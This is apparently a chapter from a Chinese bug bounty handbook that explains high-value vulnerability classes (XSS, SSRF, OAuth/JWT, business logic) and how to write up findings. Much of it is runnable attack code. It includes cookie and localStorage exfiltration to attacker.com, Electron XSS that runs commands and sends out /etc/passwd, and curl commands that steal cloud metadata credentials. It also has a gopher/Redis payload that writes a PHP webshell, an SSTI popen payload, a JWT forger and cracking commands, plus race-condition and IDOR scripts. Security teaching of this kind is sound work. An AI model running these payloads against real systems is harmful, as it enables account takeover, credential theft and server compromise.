



## 27.5 高价值漏洞类型深度剖析

在Bug Bounty实战中，并非所有漏洞的赏金都相同。一个精心利用的SSRF可能价值数千美元，而一个普通的反射型XSS可能只值50美元。理解哪些漏洞类型具有更高的商业价值，以及如何将它们挖掘到极致，是Bug Bounty猎人从"撒网式"提交转向"精准狙击"的关键转折点。

本节将深入剖析四类最高价值漏洞的挖掘方法论：XSS的高阶利用、SSRF的攻击链构建、认证与授权体系的系统化破解、以及业务逻辑漏洞的思维框架。每个漏洞类型不仅讲解原理，更提供可直接复用的攻击模板和绕过技巧。



### 27.5.1 XSS漏洞的高阶挖掘与利用

XSS（跨站脚本攻击）是Bug Bounty中提交量最大的漏洞类型，但多数猎人停留在 `alert(1)` 的PoC阶段，提交的报告缺乏影响力描述，导致赏金偏低。真正的高手将XSS视为进入目标系统的入口，而非终点。

#### 27.5.1.1 存储型XSS的高价值场景识别

存储型XSS的价值远高于反射型XSS，核心原因在于：**它不需要受害者的任何交互，也不依赖社会工程学**。以下是经过实战验证的高价值存储型XSS场景：

| 场景 | 攻击路径 | 典型赏金范围 | 危害等级 |
|------|----------|-------------|---------|
| 管理后台中的存储型XSS | 用户提交内容 → 管理员查看 → 劫持管理员会话 → 系统接管 | $500-$5000 | 严重 |
| 实时通信中的XSS | 用户A发送消息 → 用户B查看 → 窃取Token/执行操作 | $300-$3000 | 高危 |
| 文件名XSS | 上传含恶意JS的文件 → 管理员在后台列表查看文件名 | $200-$1500 | 高危 |
| SVG/PDF上传XSS | 上传恶意SVG → 其他用户查看 → 触发内嵌脚本 | $200-$1000 | 中高危 |
| 邮件模板XSS | 注入邮件模板 → 批量发送 → 窃取收件人凭证 | $500-$5000 | 严重 |

**管理后台XSS的利用细节**：

管理后台XSS是价值最高的场景，因为管理员通常拥有更高权限。攻击路径如下：

1. **定位注入点**：用户评论、反馈表单、工单系统、文件上传（特别是文件名字段）
2. **构造Payload**：使用不被WAF过滤的Payload（详见下文CSP绕过）
3. **窃取会话**：通过外带请求获取管理员的Cookie/Token
4. **横向扩展**：利用管理员权限访问更多敏感接口

```javascript
// 管理后台XSS的完整利用链
// 第一步：窃取管理员Cookie
<script>
// 使用img标签外带数据（绕过部分CSP）
new Image().src = "https://attacker.com/steal?c=" + document.cookie;

// 或使用Fetch API（更可靠）
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        cookie: document.cookie,
        url: window.location.href,
        localStorage: JSON.stringify(localStorage)
    })
});
</script>
```

#### 27.5.1.2 CSP绕过技术体系

内容安全策略（CSP）是防御XSS的主要机制，但配置不当的CSP反而可能成为攻击者的跳板。

**CSP配置等级与绕过难度对照**：

| CSP配置 | 绕过难度 | 推荐绕过方式 |
|---------|---------|-------------|
| `unsafe-inline` | 极低 | 直接注入 `<script>` 标签 |
| `unsafe-eval` | 低 | 使用 `eval()` / `Function()` 构造 |
| 允许特定CDN域名 | 中 | 利用CDN上的JSONP端点/Gadget |
| nonce策略 | 中高 | 需结合其他漏洞获取nonce |
| `report-uri`仅配置 | 低 | 可能泄露页面内容 |

**CSP绕过实战技巧**：

```html
<!-- 场景1：CSP允许unsafe-inline但有nonce -->
<!-- 如果nonce可预测或泄露，直接利用 -->
<script nonce=" predictable-nonce">alert(1)</script>

<!-- 场景2：CSP允许特定域名的脚本 -->
<!-- 寻找该域名上的JSONP端点 -->
<script src="https://allowed-cdn.com/jsonp?callback=alert(1)//"></script>

<!-- 场景3：CSP配置了base-uri但未限制 -->
<base href="https://attacker.com/">
<script src="/relative-path.js"></script>
<!-- 浏览器会从attacker.com加载该脚本 -->

<!-- 场景4：利用meta标签绕过（仅限无meta CSP限制时） -->
<meta http-equiv="Content-Security-Policy" content="script-src 'self' 'unsafe-inline'">

<!-- 场景5：利用CSP的report-uri信息泄露 -->
<!-- 如果CSP配置了report-uri，注入的脚本虽然不执行，但会向report端点发送包含脚本内容的报告 -->
<!-- 可用于侧信道提取页面敏感数据 -->
```

**利用CDN上的JSONP端点绕过CSP**：

许多知名CDN服务提供了JSONP接口，如果CSP允许这些CDN域名的脚本加载，攻击者可以通过回调函数执行任意代码：

```text
# Google Analytics JSONP（如果CSP允许google-analytics.com）
https://www.google-analytics.com/analytics.js → 寻找可利用的回调

# jQuery CDN JSONP（如果CSP允许code.jquery.com）
https://code.jquery.com/jquery-3.6.0.js → 利用$.getScript等方法

# YouTube嵌入API
https://www.youtube.com/embed/VIDEO_ID → 利用postMessage接口
```

> **经验法则**：在测试CSP绕过时，先用 `curl` 扫描CSP允许的所有域名，检查每个域名是否存在JSONP端点或可利用的JavaScript库。工具推荐：[cspEvaluator](https://csp-evaluator.withgoogle.com/) 和 [CSP Mitigator](https://github.com/nicoth-in/csp-mitigator)。

#### 27.5.1.3 XSS到RCE的升级路径

将XSS升级为远程代码执行（RCE）是赏金翻倍的关键。以下是三种已验证的升级路径：

**路径一：Electron应用XSS → 系统命令执行**

```javascript
// Electron应用默认开启了Node.js集成
// 如果XSS成功，可以利用child_process执行系统命令
const { exec } = require('child_process');
exec('id && whoami && cat /etc/passwd', (err, stdout) => {
    // 将结果外带到攻击者服务器
    fetch('https://attacker.com/exfil', {
        method: 'POST',
        body: stdout
    });
});
```

**路径二：浏览器扩展XSS → 高权限API访问**

```text
// 许多浏览器扩展在content script中暴露了API
// 通过XSS调用扩展的background script
chrome.runtime.sendMessage(
    extensionId,
    { action: 'executeCommand', cmd: 'readFile /etc/passwd' },
    (response) => {
        fetch('https://attacker.com/exfil', {
            method: 'POST',
            body: JSON.stringify(response)
        });
    }
);
```

**路径三：管理后台XSS → WebShell上传**

```text
// 利用管理员权限上传PHP/JSP WebShell
// 第一步：通过XSS获取管理员CSRF Token
// 第二步：调用文件上传API上传WebShell
// 第三步：直接访问WebShell执行系统命令
// 适用于管理后台有文件上传功能的场景
```

---

### 27.5.2 SSRF漏洞的高级利用技术

SSRF（服务器端请求伪造）是Bug Bounty中**单笔赏金最高**的漏洞类型之一。一个可以访问云元数据服务的SSRF，在AWS上可能直接导致数千美元的赏金，因为它可以泄露IAM角色凭证，进而接管整个云环境。

#### 27.5.2.1 云环境元数据攻击详解

各大云平台都提供了实例元数据服务（IMDS），默认绑定在 `169.254.169.254` 地址。如果应用存在SSRF，攻击者可以伪造请求获取这些元数据。

**AWS元数据攻击**：

```bash
# IMDSv1（无认证，直接访问）—— 仍有许多环境在使用
# 枚举所有可用的元数据路径
curl http://169.254.169.254/latest/meta-data/
# 返回：ami-id, instance-id, iam/ 等

# 获取IAM角色名称
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# 返回：my-role-name

# 获取IAM临时凭证（Access Key + Secret Key + Token）
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/my-role-name
# 返回：{"AccessKeyId":"AKIA...","SecretAccessKey":"...","Token":"...","Expiration":"..."}

# 利用获取的凭证访问AWS资源
export AWS_ACCESS_KEY_ID="AKIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
aws s3 ls  # 列出S3存储桶
aws iam list-users  # 列出IAM用户

# IMDSv2（需要Token，默认开启）—— SSRF仍可利用
# 第一步：获取Token
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
# 第二步：使用Token查询元数据
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/
```

**Azure元数据攻击**：

```bash
# Azure Instance Metadata Service (IMDS)
# 需要设置Metadata头（IMDSv1格式）
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# 获取Azure AD托管身份的Token
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# 获取的Token可以访问Azure资源管理器API
curl -H "Authorization: Bearer <TOKEN>" \
  "https://management.azure.com/subscriptions/<sub-id>/resources?api-version=2021-04-01"
```

**GCP元数据攻击**：

```bash
# GCP Compute Engine Metadata（需要Metadata-Flavor头）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/"

# 获取服务账号Token
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"

# 获取服务账号邮箱
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email"
```

**云元数据攻击影响评估表**：

| 云平台 | 攻击前提 | 可获取信息 | 最大影响 |
|--------|---------|-----------|---------|
| AWS | SSRF + IMDSv1/IMDSv2 | IAM临时凭证、用户数据脚本 | 完全接管AWS账户 |
| Azure | SSRF + Metadata头 | 托管身份Token、用户数据 | 访问Azure资源 |
| GCP | SSRF + Metadata-Flavor头 | 服务账号Token、项目信息 | 访问GCP资源 |
| 阿里云 | SSRF | RAM角色凭证、用户数据 | 接管ECS实例权限 |

#### 27.5.2.2 SSRF绕过技术全解

部署了SSRF防护的应用通常使用黑名单或白名单策略，但这些策略存在大量可绕过的缺陷。

**黑名单绕过技巧**：

```python
# 1. IP地址不同表示形式
http://127.0.0.1          # 标准IP
http://2130706433          # 十进制IP
http://0x7f000001          # 十六进制IP
http://0177.0.0.1          # 八进制IP
http://[::1]               # IPv6 localhost
http://[0:0:0:0:0:0:0:1]  # IPv6 完整形式

# 2. 域名重定向绕过
http://127.0.0.1.nip.io    # nip.io自动解析为127.0.0.1
http://localtest.me         # 等同于127.0.0.1

# 3. URL解析差异
http://evil.com#@127.0.0.1   # 某些解析器将127.0.0.1视为目标
http://evil.com\@127.0.0.1   # 反斜杠在不同库中的处理不同
http://evil.com%00@127.0.0.1 # 空字节截断

# 4. 协议走私
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall  # Redis命令注入
dict://127.0.0.1:6379/info     # 内网服务探测

# 5. 重定向绕过
# 如果SSRF会跟随重定向，可以设置攻击者服务器返回302重定向到内网地址
# 攻击者服务器：curl -v https://attacker.com/ssrf → 返回302 Location: http://127.0.0.1
```

**白名单绕过技巧**：

```python
# 1. 利用URL解析器差异
# 某些库将 URL 解析为 scheme://authority/path
https://trusted-domain.com@127.0.0.1   # authority被忽略
https://trusted-domain.com#@127.0.0.1   # fragment处理差异

# 2. 子域名/通配符利用
# 如果白名单是*.trusted-domain.com
https://trusted-domain.com.attacker.com  # 利用DNS验证绕过

# 3. DNS重绑定攻击（最强大的白名单绕过方式）
# 步骤：
# (1) 注册域名 evil.com，配置TTL=0
# (2) 第一次DNS查询返回 trusted-domain.com 的IP（通过白名单检查）
# (3) 第二次DNS查询返回 127.0.0.1（触发SSRF）
# 工具：rbndr.us,rebinder等在线服务
```

#### 27.5.2.3 SSRF链式攻击模板

单独的SSRF可能只评为中危，但通过链式利用，可以升级为严重漏洞。以下是已验证的攻击链：

**攻击链一：SSRF → Redis未授权访问 → RCE**

```python
import requests
import urllib.parse

# 利用gopher协议向Redis发送命令
# 目标：写入WebShell到Redis的web目录
payload = """*3\r\n$3\r\nSET\r\n$1\r\n1\r\n$35\r\n<?php system($_GET['cmd']); ?>\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$13\r\n/var/www/html\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$9\r\nshell.php\r\n*1\r\n$4\r\nSAVE\r\n"""

encoded = urllib.parse.quote(payload)
ssrf_url = "https://vulnerable-app.com/fetch?url=gopher://127.0.0.1:6379/_" + encoded
requests.get(ssrf_url)
```

**攻击链二：SSRF → 内网服务发现 → 横向渗透**

```yaml
# 第一步：SSRF扫描内网端口
# 通过响应时间差异判断端口状态
http://vulnerable-app.com/fetch?url=http://10.0.0.1:80    # 响应快=端口开放
http://vulnerable-app.com/fetch?url=http://10.0.0.1:443   # 响应慢/超时=端口关闭

# 第二步：识别服务类型
# 根据响应头和内容判断服务类型
Server: Apache/2.4.41  → HTTP服务
SSH-2.0-OpenSSH_8.0    → SSH服务
+OK POP3 server ready  → POP3邮件服务

# 第三步：利用已知漏洞或弱密码横向渗透
```

**攻击链三：SSRF → 服务端模板注入（SSTI）→ RCE**

```text
# 如果内网存在使用模板引擎的服务（如Jinja2、Twig、FreeMarker）
# 通过SSRF向其注入恶意模板表达式
# Jinja2 SSTI payload：
http://internal-template-server/render?template={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

---

### 27.5.3 认证与授权漏洞深度分析

认证与授权是应用安全的基石。这两类漏洞通常具有**极高的商业价值**，因为它们可能允许攻击者完全接管用户账户或提升至管理员权限。

#### 27.5.3.1 OAuth 2.0 系统化攻击方法

OAuth 2.0是现代Web应用中使用最广泛的授权框架，但其实现复杂度高，漏洞面广。

**OAuth攻击向量全景**：



**redirect_uri绕过技术**：

`redirect_uri` 验证是OAuth安全的第一道防线。以下是经过实战验证的绕过方法：

```text
# 原始合法redirect_uri
https://app.example.com/callback

# 绕过方法1：路径遍历
https://app.example.com/callback/../attacker
https://app.example.com/callback?next=/../../../attacker

# 绕过方法2：参数注入
https://app.example.com/callback?redirect_uri=https://attacker.com
# 某些实现会二次解析参数中的redirect_uri

# 绕过方法3：子域名验证绕过
https://evil-app.example.com/callback     # 子域名通配符匹配
https://example.com.attacker.com/callback  # 域名后缀欺骗
https://app.example.com.attacker.com       # 利用URL解析差异

# 绕过方法4：通配符利用
# 如果redirect_uri验证使用了通配符 *.example.com
https://attacker.example.com/callback      # 注册同名子域名

# 绕过方法5：HTTP vs HTTPS
https://app.example.com/callback    # 注册的是HTTPS
http://app.example.com/callback     # 尝试HTTP（可能未验证协议）

# 绕过方法6：端口号差异
https://app.example.com:443/callback  # 标准端口
https://app.example.com:8443/callback # 非标准端口
```

**JWT攻击技术全解**：

JWT（JSON Web Token）是另一种常见的认证机制，其安全性取决于密钥管理、算法选择和实现质量。

| 攻击类型 | 原理 | 利用条件 | 影响 |
|---------|------|---------|------|
| 算法混淆攻击 | 将RS256改为HS256，用公钥签名 | 获取公钥（通常公开） | 伪造任意Token |
| 密钥爆破 | 暴力破解弱密钥 | 密钥强度不足 | 完全Token伪造 |
| None算法攻击 | 将alg改为none，跳过签名验证 | 服务端未禁止none算法 | 无需密钥即可伪造 |
| JKU/JWK注入 | 在Header中注入恶意JWK | 服务端信任Header中的JWK | 用自定义密钥签发Token |
| 密钥泄露 | 从源码/配置/日志中获取密钥 | 密钥管理不当 | 伪造任意Token |

```python
# JWT算法混淆攻击完整流程
import jwt
import requests

# 第一步：获取目标应用的JWT
target_token = "eyJhbGciOiJSUzI1NiIs..."
decoded = jwt.decode(target_token, options={"verify_signature": False})
print(f"当前算法: {jwt.get_unverified_header(target_token)['alg']}")
print(f"Payload: {decoded}")

# 第二步：获取公钥（通常从JWKS端点或证书文件获取）
jwks_url = "https://target.com/.well-known/jwks.json"
jwks = requests.get(jwks_url).json()
public_key = jwt.algorithms.RSAAlgorithm.from_jwk(jwks['keys'][0])

# 第三步：使用HS256算法，以公钥作为密钥重新签名
forged_payload = {
    "sub": "admin",
    "role": "administrator",
    "iat": 1700000000,
    "exp": 1999999999
}
forged_token = jwt.encode(forged_payload, public_key, algorithm='HS256')
print(f"伪造的Token: {forged_token}")

# 第四步：使用伪造的Token访问受保护资源
response = requests.get(
    "https://target.com/api/admin/users",
    headers={"Authorization": f"Bearer {forged_token}"}
)
print(f"Status: {response.status_code}")
print(f"Response: {response.text[:500]}")
```

```bash
# JWT密钥爆破工具使用
# 使用hashcat爆破
# 第一步：提取JWT签名部分
echo "eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.XXXXXXXXX" > jwt.txt

# 第二步：使用hashcat爆破（-m 16500 = JWT HS256）
hashcat -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
# 成功后显示：secret_key

# 使用jwt_tool（更全面的JWT测试工具）
python3 jwt_tool.py <token> -C -d /usr/share/wordlists/rockyou.txt

# 使用jwt-cracker（简单暴力破解）
jwt-cracker <token> -d /usr/share/wordlists/rockyou.txt
```

#### 27.5.3.2 会话管理漏洞挖掘

会话管理是认证体系中最容易出错的环节。以下是常见的会话管理缺陷和利用方法：

| 漏洞类型 | 描述 | 利用方式 | 赏金范围 |
|---------|------|---------|---------|
| 会话固定攻击 | 攻击者预设会话ID | 诱骗受害者使用预设会话 | $200-$1000 |
| 会话令牌泄露 | Token出现在URL/日志中 | 从Referer头/服务器日志提取 | $300-$1500 |
| 会话超时缺失 | 会话永不过期 | 窃取长期有效的Token | $200-$800 |
| 会话撤销缺失 | 修改密码后旧Token仍有效 | 使用旧Token持续访问 | $300-$1000 |
| 并发会话无限制 | 同一账户多设备同时登录 | Token共享/重放 | $100-$500 |

---

### 27.5.4 业务逻辑漏洞挖掘方法论

业务逻辑漏洞是最难通过自动化工具发现的漏洞类型，因为它需要深入理解业务流程和预期行为。但正因如此，这类漏洞往往是**赏金最高的提交**之一，因为它们具有极高的商业影响。

#### 27.5.4.1 业务逻辑漏洞分类框架



#### 27.5.4.2 价格篡改测试体系

价格篡改是电商类Bug Bounty中最具价值的漏洞之一。以下是系统化的测试清单：

**价格参数测试矩阵**：

| 测试维度 | 测试方法 | 期望异常行为 | 风险等级 |
|---------|---------|------------|---------|
| 数值正负 | 修改金额为负数 | 订单金额变为负数，账户余额增加 | 严重 |
| 数值精度 | 输入小数（如99.999） | 系统处理异常精度，金额被截断 | 高危 |
| 数量溢出 | 输入极大数量（如999999999） | 整数溢出导致金额异常 | 高危 |
| 货币切换 | 修改货币参数（USD→IRR） | 利用汇率差异降低实际支付 | 严重 |
| 运费篡改 | 修改运费为负数或零 | 免运费或获得运费补贴 | 中高危 |
| 税率修改 | 修改税率参数为零 | 跳过税费计算 | 中高危 |
| 优惠叠加 | 同时使用多个优惠券 | 优惠被重复应用 | 严重 |

```python
# 价格篡改自动化测试脚本
import requests
import json

class PriceTamperTest:
    def __init__(self, base_url, auth_token):
        self.base_url = base_url
        self.headers = {
            "Authorization": f"Bearer {auth_token}",
            "Content-Type": "application/json"
        }
    
    def test_negative_price(self):
        """测试负数价格"""
        payload = {
            "product_id": "12345",
            "quantity": 1,
            "price": -100  # 负数价格
        }
        resp = requests.post(
            f"{self.base_url}/api/orders",
            headers=self.headers,
            json=payload
        )
        return resp.status_code == 200  # 如果成功创建订单=漏洞
    
    def test_quantity_overflow(self):
        """测试数量溢出"""
        payload = {
            "product_id": "12345",
            "quantity": 2147483648,  # 超过32位整数上限
            "price": 100
        }
        resp = requests.post(
            f"{self.base_url}/api/orders",
            headers=self.headers,
            json=payload
        )
        return resp.status_code == 200
    
    def test_currency_switch(self):
        """测试货币切换"""
        payload = {
            "product_id": "12345",
            "quantity": 1,
            "currency": "IRR",  # 切换为伊朗里亚尔
            "price": 100
        }
        resp = requests.post(
            f"{self.base_url}/api/orders",
            headers=self.headers,
            json=payload
        )
        return resp.status_code == 200
    
    def test_decimal_price(self):
        """测试小数精度"""
        payload = {
            "product_id": "12345",
            "quantity": 1,
            "price": 0.001  # 极小价格
        }
        resp = requests.post(
            f"{self.base_url}/api/orders",
            headers=self.headers,
            json=payload
        )
        return resp.status_code == 200
```

#### 27.5.4.3 竞态条件（Race Condition）深度利用

竞态条件是业务逻辑漏洞中最隐蔽的类型之一，它利用了系统在并发处理请求时的时序缺陷。

**竞态条件的典型利用场景**：

| 场景 | 攻击方式 | 潜在影响 |
|------|---------|---------|
| 双重支付 | 同时发送两个支付请求 | 获得商品但只扣一次款 |
| 余额竞态 | 同时发起余额查询和扣款 | 余额不一致，多取款 |
| 优惠券复用 | 同时使用同一优惠券多次 | 优惠被重复应用 |
| 会员开通 | 并发请求延长会员时间 | 用一次购买获得长期会员 |
| 库存竞态 | 并发购买最后一件商品 | 超卖或库存负数 |

```python
import asyncio
import aiohttp
import time

class RaceConditionExploiter:
    """竞态条件利用框架"""
    
    def __init__(self, target_url, auth_token):
        self.target_url = target_url
        self.headers = {
            "Authorization": f"Bearer {auth_token}",
            "Content-Type": "application/json"
        }
    
    async def send_request(self, session, payload, request_id):
        """发送单个请求"""
        try:
            async with session.post(
                self.target_url,
                headers=self.headers,
                json=payload
            ) as resp:
                status = resp.status
                body = await resp.text()
                print(f"[Req {request_id}] Status: {status}, Body: {body[:100]}")
                return {"id": request_id, "status": status, "body": body}
        except Exception as e:
            print(f"[Req {request_id}] Error: {e}")
            return {"id": request_id, "status": "error", "body": str(e)}
    
    async def exploit_double_payment(self, product_id):
        """利用竞态条件实现双重支付"""
        payload = {
            "product_id": product_id,
            "quantity": 1,
            "payment_method": "wallet"
        }
        
        async with aiohttp.ClientSession() as session:
            # 同时发送5个支付请求
            tasks = [
                self.send_request(session, payload, i)
                for i in range(5)
            ]
            results = await asyncio.gather(*tasks)
            
            # 分析结果
            success_count = sum(1 for r in results if r["status"] == 200)
            print(f"\n{'='*50}")
            print(f"成功请求数: {success_count}/5")
            print(f"如果成功数 > 1，说明存在竞态条件漏洞")
            
            return results
    
    async def exploit_balance_race(self, amount):
        """利用竞态条件绕过余额检查"""
        payload = {
            "action": "withdraw",
            "amount": amount
        }
        
        async with aiohttp.ClientSession() as session:
            # 并发发送取款请求
            tasks = [
                self.send_request(session, payload, i)
                for i in range(10)
            ]
            results = await asyncio.gather(*tasks)
            
            success_count = sum(1 for r in results if r["status"] == 200)
            print(f"\n取款成功次数: {success_count}/10")
            
            return results

# 使用示例
# exploiter = RaceConditionExploiter("https://target.com/api/pay", "token")
# asyncio.run(exploiter.exploit_double_payment("product-123"))
```

**竞态条件测试最佳实践**：

1. **同步发送**：使用 `threading` 或 `asyncio` 确保请求同时发出，而非顺序发送
2. **多次尝试**：竞态条件的成功率通常在10%-30%之间，需要多次测试
3. **监控响应**：记录每个请求的响应状态和内容，分析是否存在不一致
4. **验证结果**：测试完成后检查系统状态（余额、订单数、会员时长等）是否异常

#### 27.5.4.4 IDOR（不安全的直接对象引用）挖掘方法

IDOR是授权漏洞中最常见的类型，也是赏金最稳定的漏洞之一。

**IDOR测试方法论**：

```javascript
# 测试步骤：
# 1. 登录账户A，记录请求中所有对象标识符（ID、UUID等）
# 2. 登录账户B
# 3. 使用账户B的认证信息，尝试访问账户A的对象
# 4. 如果成功返回数据=存在IDOR漏洞

# 常见的IDOR位置：
# - API路径中的资源ID：/api/users/12345
# - 查询参数中的对象ID：?user_id=12345
# - 请求体中的引用ID：{"order_id": "12345"}
# - 文件路径中的标识符：/files/12345/document.pdf
```

**IDOR自动化检测脚本**：

```python
import requests
from concurrent.futures import ThreadPoolExecutor

class IDORDetector:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
    
    def test_idor(self, endpoint, victim_id, attacker_token):
        """测试单个端点的IDOR"""
        # 替换URL中的ID
        test_url = endpoint.replace("{id}", str(victim_id))
        
        headers = {"Authorization": f"Bearer {attacker_token}"}
        resp = self.session.get(test_url, headers=headers)
        
        return {
            "endpoint": test_url,
            "status": resp.status_code,
            "vulnerable": resp.status_code == 200,
            "data_leaked": len(resp.text) > 0
        }
    
    def batch_test(self, endpoints, victim_ids, attacker_token):
        """批量测试多个端点"""
        results = []
        
        with ThreadPoolExecutor(max_workers=10) as executor:
            futures = []
            for endpoint in endpoints:
                for victim_id in victim_ids:
                    future = executor.submit(
                        self.test_idor,
                        endpoint, victim_id, attacker_token
                    )
                    futures.append(future)
            
            for future in futures:
                result = future.result()
                if result["vulnerable"]:
                    print(f"[VULN] {result['endpoint']} - IDOR confirmed!")
                results.append(result)
        
        vulnerable_count = sum(1 for r in results if r["vulnerable"])
        print(f"\n测试完成: {vulnerable_count}/{len(results)} 个端点存在IDOR")
        
        return results
```

---

### 27.5.5 漏洞价值评估框架

在提交Bug Bounty报告之前，准确评估漏洞的商业价值有助于撰写更有说服力的报告，并设定合理的赏金预期。

**漏洞价值评估维度**：

| 评估维度 | 低价值 | 中价值 | 高价值 | 严重价值 |
|---------|-------|-------|-------|---------|
| 影响范围 | 单一用户 | 多个用户 | 所有用户 | 系统级影响 |
| 数据敏感性 | 公开信息 | 用户个人信息 | 凭证/财务数据 | 核心业务数据 |
| 利用难度 | 需要认证 | 无需认证 | 零交互 | 供应链影响 |
| 修复成本 | 配置修改 | 代码修复 | 架构重构 | 全面重写 |

**常见漏洞类型赏金参考**（基于HackerOne和Bugcrowd历史数据）：

| 漏洞类型 | 典型赏金范围 | 影响评分因素 |
|---------|-------------|------------|
| 存储型XSS（管理后台） | $500-$5000 | 取决于管理员权限范围 |
| SSRF（云元数据访问） | $1000-$10000 | 取决于IAM角色权限 |
| OAuth redirect_uri绕过 | $300-$3000 | 取决于可窃取的账户权限 |
| JWT算法混淆 | $500-$5000 | 取决于受影响的系统范围 |
| IDOR（敏感数据泄露） | $200-$2000 | 取决于数据敏感程度 |
| 竞态条件（资金相关） | $500-$5000 | 取决于可窃取的金额上限 |
| 价格篡改 | $300-$3000 | 取决于商业影响 |

---

### 27.5.6 漏洞报告撰写要点

高价值漏洞需要高质量的报告来匹配。一份优秀的报告应包含：

**报告结构模板**：

```markdown
# 漏洞标题：[影响范围] + [漏洞类型] + [具体位置]

## 概述
一句话描述漏洞的本质和影响

## 复现步骤
1. 详细的操作步骤
2. 每个请求的完整信息（URL、方法、Headers、Body）
3. 预期行为 vs 实际行为

## 影响分析
- 商业影响：对业务的具体影响
- 数据影响：可能泄露的数据类型和范围
- 用户影响：受影响的用户数量

## 修复建议
- 短期修复：立即可以实施的缓解措施
- 长期修复：架构层面的解决方案

## 附加材料
- PoC代码/脚本
- 截图/视频演示
- 漏洞原理分析
```

**提升赏金的技巧**：

1. **量化影响**：不要只说"可以窃取用户数据"，要说"可以窃取10万用户的PII数据，包括姓名、邮箱、电话"
2. **展示攻击链**：如果漏洞可以链式利用，展示完整的攻击路径
3. **提供修复方案**：主动提出具体的修复建议，降低开发团队的修复成本
4. **附上PoC代码**：提供可复现的PoC代码，让审核人员快速验证
5. **评估CVSS评分**：使用CVSS v3.1计算器给出客观的严重程度评分

---

### 27.5.7 本节小结

高价值漏洞的挖掘需要跳出"工具扫描"的思维模式，深入理解目标系统的技术架构和业务逻辑。本节涵盖的四类漏洞——XSS高阶利用、SSRF攻击链、认证授权漏洞、业务逻辑漏洞——是Bug Bounty中最具商业价值的漏洞类型。

**关键要点回顾**：

1. **XSS不仅是alert(1)**：通过升级到RCE、窃取管理员权限、绕过CSP等手段，XSS可以产生巨大的商业影响
2. **SSRF是最具价值的漏洞**：云环境元数据攻击可以导致整个云环境被接管，赏金可达数千美元
3. **认证漏洞是系统性风险**：OAuth和JWT的实现缺陷可能导致整个用户认证体系被绕过
4. **业务逻辑漏洞需要思维深度**：竞态条件、价格篡改等漏洞需要理解业务流程才能发现

> **进阶建议**：在掌握本节内容后，建议深入学习以下方向：HTTP协议走私（HTTP Smuggling）、GraphQL安全、微服务架构下的SSRF、以及云原生环境的安全测试。这些领域正在成为Bug Bounty中的新兴高价值领域。
